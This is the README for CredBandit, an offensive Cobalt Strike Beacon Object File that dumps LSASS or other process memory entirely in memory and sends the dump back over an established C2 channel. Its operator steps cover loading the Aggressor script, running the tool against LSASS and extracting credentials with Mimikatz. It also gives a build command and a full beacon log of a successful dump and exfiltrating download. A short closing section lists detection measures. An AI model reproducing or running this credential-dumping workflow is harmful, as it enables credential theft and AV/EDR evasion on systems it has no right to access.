 # CredBandit

CredBandit is a proof of concept Beacon Object File (BOF) that uses static x64 syscalls to perform a complete in memory dump of a process and send that back through your already existing Beacon communication channel.  The memory dump is done by using NTFS transactions which allows us to write the dump to memory and the MiniDumpWriteDump API has been replaced with an adaptation of ReactOS's implementation of MiniDumpWriteDump. 

The memory dump is then downloaded over the beacon with Beacon's native download functionality. The advantage of doing it this way is that the dump is never written to disk and is sent via your already established C2 channel. 

# Subject References
This tool wouldn't exist without being able to piggyback off some really great research, tools, and code already published by members of the security community. So thank you. Lastly, if you feel anyone has been left out below, please let me know and I will be sure to get them added.
- Red Team Tactics: Combining Direct System Calls and sRDI to bypass AV/EDR (by [@Cneelis](https://twitter.com/Cneelis)) - [here](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/)
- Direct Syscalls in Beacon Object Files (by [@Cneelis](https://twitter.com/Cneelis)) - [here](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)
- TransactedSharpMiniDump - [here](https://github.com/PorLaCola25/TransactedSharpMiniDump)
- rookuu/BOFS/MiniDumpWriteDump (by [@rookuu_](https://twitter.com/rookuu_))- [here](https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump) - Did all the heavy lifting for converting the ReactOS minidump.c to BOF compatible code
- SysWhispers (by [@Jackson_T](https://twitter.com/Jackson_T))- [here](https://github.com/jthuraisamy/SysWhispers)
- InlineWhsipers - [here](https://github.com/outflanknl/InlineWhispers)
- ([@ilove2pwn_](https://twitter.com/ilove2pwn_)) - Confirmed my original idea of the possibility of being able to use BeaconPrintf() function to send data back through CS, helped me get started with writing/understanding the amazing (insert == sarcasm) sleep language.  I also borrowed and modified little bit of logic for chunking data in C [here](https://gist.github.com/SecIdiot/82e4162e495602f064aba5b42575da5e)
- ([@BinaryFaultline](https://twitter.com/BinaryFaultline)) - Added the ability to use beacon's native download functionality
- ([@Cr0Eax](https://twitter.com/Cr0Eax]) and [@_EthicalChaos_](https://twitter.com/_EthicalChaos_)) - Initial discovery and usage of Beacon's native download functionality. See their tweets about it: https://twitter.com/_EthicalChaos_/status/1413229432219779074?s=20 and https://twitter.com/Cr0Eax/status/1412761297951739907?s=20

## Getting Started

1. Copy the credBandit folder with all of its contents and place it a directory just above your cobaltstrike folder on whatever system you plan to connect with via the GUI application.
2. Load in the MiniDumpWriteDump.cna Aggressor script
3. Run credBandit against target LSASS process (or other process)
4. Download the dump file from the Aggressor Downloads console
6. Use Mimikatz to extract the dump file

### Build Your Own

Run the below command inside the src directory
```
x86_64-w64-mingw32-gcc -o credBanditx64.o -c credBandit.c  -masm=intel
```

### Use Case

> *With High or SYSTEM integrity, the operator can perform a memory dump of LSASS without ever touching disk*

### Syntax

Perform memory dump and send back through CS using BeaconPrintf function. The second parameter of output name is optional and will show up in the Aggressor Downloads console as mem:\\[output].dmp

```
beacon> credBandit 708 output
[*] Running credBandit by (@anthemtotheego)
[+] host called home, sent: 18696 bytes
[+] received output:
[+] Attempting To Enable Debug Privs

[+] received output:
[+] Attempting To Dump Proccess 708

[+] received output:
[+] NtOpenProcess returned HANDLE 0x00000000000006CC

[+] received output:
[+] NtCreateTransaction returned HANDLE 0x00000000000006D4

[+] received output:
[+] RtlSetCurrentTransaction successfully set

[+] received output:
[+] NtCreateFile returned HANDLE 0x00000000000006D8

[+] received output:
[+] RtlSetCurrentTransaction successfully set

[+] received output:
[+] OS Version: 10.0.19042

[+] received output:
[+] MiniDump written to memory

[+] received output:
[+] MiniDump Size In Bytes = 109868198

[+] received output:
[+] NtCreateSection created

[+] received output:
[+] NtMapViewOfSection successful

[*] started download of mem:\output.dmp (109868198 bytes)
[*] download of output.dmp is complete
```

## Caveats

1. While I have tried to make this pretty stable, Although this method has become more stable with the download method, BOFs still carry the risk of causing a beacon to crash. Use at your own risk.
2. Process dumps are large, though chunks will be sent at regular beacon intervals.
3. Lastly, I commented in the code places where you could make modifications if you wanted to do other stuff, for example, write to disk instead, add in different encoding/encryption, Comms, etc.
 
## Detection

Some detection and mitigation strategies that could be used:

1. Credential Guard [here](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-manage)
2. Event Tracing [here](https://docs.microsoft.com/en-us/windows/win32/etw/about-event-tracing)
3. Looking for suspicious processes touching LSASS
4. Looking for other known Cobalt Strike Beacon IOC's or C2 egress/communication IOC's. 

